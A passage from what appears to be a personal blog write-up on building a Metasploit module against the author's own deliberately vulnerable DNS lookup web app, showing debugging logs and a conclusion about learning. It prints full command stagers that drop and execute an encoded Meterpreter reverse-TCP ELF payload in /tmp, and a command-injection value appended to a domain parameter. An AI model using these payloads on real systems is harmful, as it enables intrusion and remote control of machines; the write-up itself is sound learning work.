2[*] Generated command stager: ["echo -en \\\\x7f\\\\x45\\\\x4c\\\\x46\\\\x02\\\\x01\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x02\\\\x00\\\\x3e\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x78\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x38\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x07\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x27\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\xd6\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x10\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x48\\\\x31\\\\xc9\\\\x48\\\\x81\\\\xe9\\\\xef\\\\xff\\\\xff\\\\xff\\\\x48\\\\x8d\\\\x05\\\\xef\\\\xff\\\\xff\\\\xff\\\\x48\\\\xbb\\\\x16\\\\xfc\\\\x27\\\\x9e\\\\xfb\\\\x73\\\\x74\\\\x40\\\\x48\\\\x31\\\\x58\\\\x27\\\\x48\\\\x2d\\\\xf8\\\\xff\\\\xff\\\\xff\\\\xe2\\\\xf4\\\\x27\\\\x03\\\\x4d\\\\x97\\\\xa3\\\\xea\\\\xc2\\\\x50\\\\x5e\\\\x75\\\\xf1\\\\xd3\\\\xca\\\\xba\\\\x1e\\\\x62\\\\x57\\\\xa6\\\\x4d\\\\x99\\\\xa1\\\\x7c\\\\x71\\\\x08\\\\x93\\\\x3c\\\\x5f\\\\xcf\\\\x91\\\\x79\\\\x35\\\\x19\\\\x46\\\\x96\\\\x0e\\\\xc6\\\\x62\\\\x19\\\\x76\\\\x1f\\\\x7c\\\\xfd\\\\x79\\\\x91\\\\xfe\\\\x3b\\\\xf1\\\\x80\\\\x6e\\\\xc7\\\\x6f\\\\x09\\\\xb3\\\\xca\\\\x76\\\\x40\\\\x07\\\\xa0\\\\xe7\\\\x36\\\\xfa\\\\xfe\\\\x25\\\\x08\\\\x9f\\\\x1a\\\\x4d\\\\x8e\\\\xa1\\\\x19\\\\x5e\\\\x18\\\\x19\\\\xf9\\\\x7e\\\\xd6\\\\x7e\\\\xb3\\\\x0d\\\\x65\\\\x5f\\\\x03\\\\xee\\\\xea\\\\xe3\\\\x24\\\\x1e\\\\x63\\\\x4e\\\\x96\\\\x27\\\\xf4\\\\xfe\\\\x3b\\\\xfd\\\\xa7\\\\x5e\\\\xcd\\\\xd1\\\\x91\\\\xfe\\\\x2a\\\\x2d\\\\x1f\\\\x5e\\\\x79\\\\xe7\\\\xe7\\\\x3c\\\\x19\\\\x48\\\\x18\\\\x7c\\\\xfd\\\\x78\\\\x91\\\\xfe\\\\x2d\\\\x1e\\\\x3e\\\\x4c\\\\xf3\\\\x22\\\\xd6\\\\x7e\\\\xb3\\\\x0c\\\\xad\\\\xe9\\\\x1a\\\\x27\\\\x9e\\\\xfb\\\\x73\\\\x74\\\\x40>>/tmp/aKiFH ; chmod 777 /tmp/aKiFH ; /tmp/aKiFH ; rm -f /tmp/aKiFH"]
3[*] Command Stager progress - 100.00% done (1551/1551 bytes)
4[*] Exploit completed, but no session was created.
On DNSSearcher, the logs are pretty empty:
INFO:root:DNS lookup for bing.com &&
INFO:root:Response status code: 2
WARNING:root:stderr: /bin/sh: 1: Syntax error: end of file unexpected
INFO: 172.17.0.1:34070 - "GET /dns?domainname=bing.com%20%26%26%20 HTTP/1.1" 200 OK
It looks like the payload isn’t making it into DNSSearcher.
With the complicated networking schenanigans, it’s also difficult to figure out which interface to monitor in Wireshark.
I decided to use TCPDump with the -i any flag to grab all traffic (Full command is sudo tshark -ni any -f 'port 8000' -w echo.pcap, I had to touch echo.pcap and chown it to root for this to work):

As a debugging test, I tried adding a statement to print out the payload at several stages:
- Inside
exploit, right before thecasestatement - In
execute_command, before thesend_request_cgi
1# for echo
2[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
3Command is H1�H������H�����H��֯�C��H1X'H-�������)�� ��_y�r���nj����ע)▒קּ���z������FX>���d
4 �����o[B�Ƕ0��z�����������)f�[G����FX��Y�FIϡ�So��z������FN���٪����y0��C��
5[*] Generated command stager: ["echo -en \\\\x7f\\\\x45\\\\x4c\\\\x46\\\\x02\\\\x01\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x02\\\\x00\\\\x3e\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x78\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x38\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x07\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x40\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x27\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\xd6\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x10\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x48\\\\x31\\\\xc9\\\\x48\\\\x81\\\\xe9\\\\xef\\\\xff\\\\xff\\\\xff\\\\x48\\\\x8d\\\\x05\\\\xef\\\\xff\\\\xff\\\\xff\\\\x48\\\\xbb\\\\x86\\\\xd6\\\\xaf\\\\xf3\\\\x43\\\\x10\\\\x96\\\\xfe\\\\x48\\\\x31\\\\x58\\\\x27\\\\x48\\\\x2d\\\\xf8\\\\xff\\\\xff\\\\xff\\\\xe2\\\\xf4\\\\xb7\\\\x29\\\\xc5\\\\xfa\\\\x1b\\\\x89\\\\x20\\\\xee\\\\xce\\\\x5f\\\\x79\\\\xbe\\\\x72\\\\xd9\\\\xfc\\\\xdc\\\\xc7\\\\x8c\\\\xc5\\\\xf4\\\\x19\\\\x1f\\\\x93\\\\xb6\\\\x03\\\\x16\\\\xd7\\\\xa2\\\\x29\\\\x1a\\\\xd7\\\\xa7\\\\xd6\\\\xbc\\\\x86\\\\xab\\\\xda\\\\x7a\\\\x94\\\\xa1\\\\xec\\\\xd7\\\\xf1\\\\xfc\\\\x46\\\\x58\\\\x13\\\\x3e\\\\xfe\\\\xed\\\\xe7\\\\x64\\\\x0b\\\\xa9\\\\x94\\\\xfe\\\\x97\\\\x8a\\\\x6f\\\\x5b\\\\x42\\\\x9d\\\\xc7\\\\xb6\\\\x0f\\\\x30\\\\xc5\\\\xe3\\\\x19\\\\x7a\\\\xbc\\\\xa6\\\\x89\\\\xd3\\\\xf6\\\\xbb\\\\xc6\\\\xd0\\\\xef\\\\xdb\\\\xcf\\\\x29\\\\x66\\\\x87\\\\x5b\\\\x47\\\\xfc\\\\xdd\\\\xde\\\\xbc\\\\xaf\\\\x99\\\\x46\\\\x58\\\\x1f\\\\x19\\\\xce\\\\xe7\\\\x59\\\\xfc\\\\x46\\\\x49\\\\xcf\\\\xa1\\\\xce\\\\x53\\\\x6f\\\\x8a\\\\x84\\\\x7a\\\\xaa\\\\xa6\\\\xec\\\\xd7\\\\xf0\\\\xfc\\\\x46\\\\x4e\\\\xfc\\\\x80\\\\xdc\\\\xd9\\\\xaa\\\\xbb\\\\xc6\\\\xd0\\\\xee\\\\x13\\\\x79\\\\x30\\\\xaf\\\\xf3\\\\x43\\\\x10\\\\x96\\\\xfe>>/tmp/BJvmj ; chmod 777 /tmp/BJvmj ; /tmp/BJvmj ; rm -f /tmp/BJvmj"]
6Sending command
7[*] Command Stager progress - 100.00% done (1551/1551 bytes)
1# for printf
2[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
3Command is H1�H������H�����H�nf�K�U�H1X'H-������_�e�X��&�ٍ?�/<e��P���w�!��>
4 &�ҫW�gQ�N��r]GWxW�:�hJL���e���acV��,�'�ƴS�?�6
5 �N��U&W��N�
6 �&�Ϲ��i�gP�N�?�4i
7��-_���K�U�
8[*] Generated command stager: ["printf '\\177\\105\\114\\106\\2\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\76\\0\\1\\0\\0\\0\\170\\0\\100\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\70\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\7\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\47\\1\\0\\0\\0\\0\\0\\0\\326\\1\\0\\0\\0\\0\\0\\0\\0\\20\\0\\0\\0\\0\\0\\0\\110\\61\\311\\110\\201\\351\\357\\377\\377\\377\\110\\215\\5\\357\\377\\377\\377\\110\\273\\156\\146\\17\\300\\113\\301\\125\\262\\110\\61\\130\\47\\110\\55\\370\\377\\377\\377\\342\\364\\137\\231\\145\\311\\23\\130\\343\\242\\46\\357\\331\\215\\172\\10\\77\\220\\57\\74\\145\\307\\21\\316\\120\\372\\353\\246\\167\\221\\41\\313\\24\\353\\76\\14\\46\\230\\322\\253\\127\\355\\4\\147\\121\\317\\116\\211\\320\\162\\26\\135\\107\\127\\3\\170\\127\\262\\177\\72\\317\\150\\112\\114\\4\\372\\347\\200\\145\\320\\21\\253\\177\\352\\141\\143\\126\\210\\316\\1\\54\\227\\47\\231\\306\\264\\123\\226\\77\\221\\66\\14\\17\\252\\116\\211\\334\\125\\46\\127\\371\\317\\116\\230\\14\\355\\46\\343\\317\\271\\214\\253\\151\\352\\4\\147\\120\\317\\116\\237\\77\\314\\64\\151\\12\\210\\316\\1\\55\\137\\221\\200\\17\\300\\113\\301\\125\\262'>>/tmp/TnUKZ ; chmod +x /tmp/TnUKZ ; /tmp/TnUKZ ; rm -f /tmp/TnUKZ"]
9Sending command printf%20'\177\105\114\106\2\1\1\0\0\0\0\0\0\0\0\0\2\0\76\0\1\0\0\0\170\0\100\0\0\0\0\0\100\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\100\0\70\0\1\0\0\0\0\0\0\0\1\0\0\0\7\0\0\0\0\0\0\0\0\0\0\0\0\0\100\0\0\0\0\0\0\0\100\0\0\0\0\0\47\1\0\0\0\0\0\0\326\1\0\0\0\0\0\0\0\20\0\0\0\0\0\0\110\61\311\110\201\351\357\377\377\377\110\215\5\357\377\377\377\110\273\156\146\17\300\113\301\125\262\110\61\130\47\110\55\370\377\377\377\342\364\137\231\145\311\23\130\343\242\46\357\331\215\172\10\77\220\57\74\145\307\21\316\120\372\353\246\167\221\41\313\24\353\76\14\46\230\322\253\127\355\4\147\121\317\116\211\320\162\26\135\107\127\3\170\127\262\177\72\317\150\112\114\4\372\347\200\145\320\21\253\177\352\141\143\126\210\316\1\54\227\47\231\306\264\123\226\77\221\66\14\17\252\116\211\334\125\46\127\371\317\116\230\14\355\46\343\317\271\214\253\151\352\4\147\120\317\116\237\77\314\64\151\12\210\316\1\55\137\221\200\17\300\113\301\125\262'>>/tmp/TnUKZ%20;%20chmod%20%2Bx%20/tmp/TnUKZ%20;%20/tmp/TnUKZ%20;%20rm%20-f%20/tmp/TnUKZ
10[*] Command Stager progress - 100.00% done (993/993 bytes)
Based on these statements, it looks like the payload is emptied before entering execute_command, but execute_command should just be getting payload.encoded, which should be the same value that gets printed out in exploit.
I don’t know why this is happening - if you do, please reach out, but I’m giving up on echo for now.
Conclusion
This project really improved my understanding of nmap and metasploit, along with getting some exposure to ruby.
I recommend anyone who uses either of these tools to try to extend them - you’ll learn a ton about how they work in the process.
Actually, that goes for anything. Want to get better at exploiting software?
Write some exploitable software.
Want to get better at working with Metasploit modules?
Make one.
There are some things that I still want to do, but they’re tangential to this project:
- The nmap tools I mentioned in Writing an Nmap Scan
- Write some more documentation for Metasploit on creating modules, from a standpoint of “assume the reader knows programming and how to manually trigger an exploit”
- It might be fun to write my own network scanner, compatible with nmap banner grabs and service probes. This could be a good use case for learning Go, and it would be fun trying to tune it to be better. I did a similar project in college - making a simple Harvester clone.
Thanks for stopping by, and I hope you’ve learned something.
-
Taken from the page How to use command stagers ↩︎ ↩︎